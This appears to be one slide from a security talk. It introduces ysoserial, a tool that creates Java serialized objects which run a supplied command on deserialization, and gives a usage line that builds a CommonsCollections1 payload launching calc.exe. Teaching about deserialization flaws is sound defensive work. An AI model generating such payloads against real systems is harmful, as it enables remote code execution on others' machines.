

# ysoserial
Tool to create a serialized object that executes the command provided

https://github.com/frohoff/ysoserial

Usage:
java -jar ysoserial-0.0.3-all.jar CommonsCollections1 calc.exe > execCalc.ser

24